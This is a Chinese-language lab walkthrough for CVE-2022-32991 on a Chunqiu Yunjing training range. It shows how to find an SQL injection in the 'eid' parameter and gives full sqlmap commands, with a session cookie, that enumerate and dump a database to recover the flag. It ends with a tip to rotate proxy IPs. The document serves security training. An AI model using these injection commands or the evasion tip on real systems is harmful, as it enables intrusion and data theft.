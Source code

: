 ### 春秋云镜（CVE-2022-32991）靶场操作流程

1. #### 进入靶场并注册登录

   进入靶场后，能看到登录和注册按钮。

   ![image-20250425204004014](.\jpg\image-20250425204004014.png)

   点击注册按钮，填写用户名（如 123）、邮箱（如 123@123.com ）、密码、学院名称（如 123）后完成注册，接着进行登录操作。

   ![image-20250425204035334](.\jpg\image-20250425204035334.png)

   ![image-20250425204110884](.\jpg\image-20250425204110884.png)

2. #### 寻找注入点

   登录成功后，点击首页第一个 “Start” 按钮，此时首页出现 PHP 报错，可忽略。

   ![image-20250425204124799](.\jpg\image-20250425204124799.png)

   ![image-20250425204142257](.\jpg\image-20250425204142257.png)

   发现页面存在 GET 传参，尝试后确定参数 “eid” 存在注入点。例如访问：http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694%27&n=18t=34发现页面出现报错提示。

   ![image-20250425204200188](.\jpg\image-20250425204200188.png)

3. #### 使用 sqlmap 进行注入检测

   由于之前进行了登录操作，需获取 Cookie。

   ![image-20250425204217300](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204217300.png)

   使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid"检测参数 “eid” 是否存在注入。

   通过回显得知 “eid” 包含布尔注入、报错注入、时间盲注以及联合注入四种注入方式，且后端数据库管理系统为 MySQL。

   ![image-20250425204238880](.\jpg\image-20250425204238880.png)

4. #### 获取数据库、表、字段及内容

   **获取数据库**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" --dbs，成功获取四个数据库。
   
   ![image-20250425204253211](.\jpg\image-20250425204253211.png)
   
   **获取指定数据库中的表**：选择 “ctf” 数据库，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" --tables，获取到 “ctf” 数据库中的 “flag” 表等 9 张表。
   
   ![image-20250425204300983](.\jpg\image-20250425204300983.png)
   
   **获取指定表中的字段**：针对 “flag” 表，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" --columns，发现 “flag” 表中有一个名为 “flag” 的字段。
   
   ![image-20250425204308738](.\jpg\image-20250425204308738.png)
   
   **获取指定字段的内容**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" -C "flag" --dump，成功获得 “flag” 字段中的内容，即得到 flag。
   
   ![image-20250425204314719](.\jpg\image-20250425204314719.png)



##### 注意：

作者在攻击靶场的适合使用了代理，同时开启了IP自动切换。如果有人的sqlmap无法正常链接的时候可以参考作者的做法。